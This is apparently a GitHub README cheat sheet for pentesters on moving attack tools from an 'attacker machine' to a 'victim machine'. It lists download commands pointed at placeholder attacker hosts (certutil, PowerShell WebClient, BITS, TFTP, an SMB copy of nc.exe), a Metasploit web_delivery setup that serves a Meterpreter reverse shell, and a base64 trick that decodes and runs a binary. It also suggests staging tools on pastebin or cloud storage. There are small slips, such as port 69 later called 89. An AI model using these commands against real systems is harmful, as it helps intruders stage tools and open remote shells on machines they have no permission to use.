 # tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from one machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

- `port=8888; python3 -m http.server      $port`
- `port=8888; python  -m SimpleHTTPServer $port`

From the victim machine you can use any browser you want to navigate to the IP address and download the files or you can use the following commands:

### CMD

- `wget http://$attacker_address/$filename`
- `certutil -urlcache -split -f "http://$attacker_ip:$port/$filename" $output-filename`


### Powershell

- `powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP:$port/$filename','$output-filename')"`
- `curl http://$attacker_address/$filename -O $output-filename`
- `Invoke-WebRequest http://$attacker_address/$filename -O $output-filename`

- `powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip/$filename -Destination C:\temp\$filename")`

### SSH

If you have an SSH session open, then you can use the SCP command to download files. To download/upload directories use the -r (recursive) switch

Downloading files from the host:

- `scp username@from_host:file.txt /local/directory/`

Uploading files to the host:

- `scp file.txt username@to_host:/remote/directory/`

### FTP

Set up an FTP server on your attacker machine:

note: (you might install `pyftpdlib` with `apt-get install python-pyftpdlib` first)
`python -m pyftpdlib 21`

ftp to the attacker machine and use the GET command to download files.

- `ftp $attacker_ip_ address`

To upload files use the `-w` switch to enable anonymous write and the PUT command.

### TFTP

Set a tftp server on your attacker machine using the following command:

- `atftpd --daemon --port 69 root-dir`

where atftpd is the tftp server we want to execute, we execute are gonna execute it as a service (daemon) on port 89 and root-directory will be the directory where the files are which we want to transfer.

To download the hosted files use:

- `tftp -i $attacker_ip GET file`

To upload files use the same command with the PUT argument.

### SMB

You can host files via SMB, use the smbserver.py script which is part of the impacket project with the following command

`smbserver.py $share_name $shared_directory`

- `smbserver.py share /usr/share/transfer`

If you want to share the current directory use the pwd command.

- `smbserver.py $share_name pwd`

To download the files use the following command:

`copy \\$attacker_ip\$share_name\$file_name $out_filename`

e.g: `copy \\192.168.0.122\share\nc.exe nc.exe`

### Metasploit

You can use the web_delivery method to transfer reverse shells. Type the following commands inside metasploit.

```
use multi/script/web delivery
set payload to windows/meterpreter/reverse_tcp
set target PSH (powershell)
set lhost eth0
```

localhost and srvhost are the same

if you are connected to the target network via VPN use the tun0 interface instead of eth0. srvhost is the ip address serving the malicious script, lhost is where the call-back will happen from the reverse-shell. In this example I used a Meterpreter shell but you choose whatever shell type you like.


## Encodings

### Base64

Another cool trick is to encode your script, using base64, then copy-paste it between sessions.

```
python -c 'print(__import__("base64").b64encode(open("file_name", "rb").read()))'
echo "base64_encoded_script" > output.txt
base64 -d output.txt > out_filename
chmod +x out_filename
./out_filename
```

you can also use bash:
- `base64 plaintext_file`
- `cat base64_encoded_file | base64 -d`


So we encoded the binary, copy-pasted the base64 string into a text file using echo, \
then decrypted it with the base64 utility using the -d switch (decrypt) to a single file. \
We made it executable with the chmod +x command than executed it.

It works well on smaller scripts, but copy pasting the string of a complex program could crash the shell.

Notes:

If you can't download your files from your attacker machine, try to upload them to pastebin, dropbox or other cloud storage services and retrive them from there.



